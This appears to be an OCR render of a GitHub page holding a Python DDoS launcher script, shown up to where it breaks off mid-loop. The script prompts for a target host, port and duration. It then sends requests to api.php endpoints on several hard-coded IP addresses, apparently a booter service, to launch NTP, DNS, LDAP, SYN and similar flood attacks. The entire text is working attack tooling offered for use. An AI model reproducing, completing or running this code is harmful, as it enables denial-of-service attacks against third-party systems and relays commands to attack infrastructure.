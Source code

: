 #### DDOS

```
import os
import time
# Coding by KriptonWave

# Twitter: @KryptonWave1
# Discord: KriptonWave#9010


os.system("clear||cls")


index = (r"""
██████╗ ██╗████████╗██╗ ██████╗ █████╗ 
██╔══██╗██║╚══██╔══╝██║██╔════╝██╔══██╗
██████╔╝██║   ██║   ██║██║     ███████║
██╔═══╝ ██║   ██║   ██║██║     ██╔══██║
██║     ██║   ██║   ██║╚██████╗██║  ██║
╚═╝     ╚═╝   ╚═╝   ╚═╝ ╚═════╝╚═╝  ╚═╝
""")
 
menu = (r"""[1] NTP      [4] ACK      [7] STROM
[2] DNS      [5] XMASS    [8] COD
[3] LDAP     [6] SSYN""")


headers = {'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_5_8) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/14.0.803.0 Safari/535.1'}
          

try:
    import requests

except:
       print (index)
       print ("[!] Install requests: pip install requests")
       exit()


print (index)
print (menu)

print (" ")
esc = input("Numero da opção desejada: ")
print (" ")
host = input("Target/Host: ")
port = input("Port: ")
time = input("Time: ")

if esc == "1":
   esc = "NTP"

   api = (f"api.php?&host={host}&port={port}&time={time}&method={esc}")
   ips = ["185.212.47.32","185.158.248.182","176.10.118.226","185.212.47.205","31.214.157.239"]

   for x in ips:

       atk = ("http://"+x+"/"+api)
       r = requests.get(atk, headers=headers)
              
       if "Attack Launch On" in r.text:
            while True:
```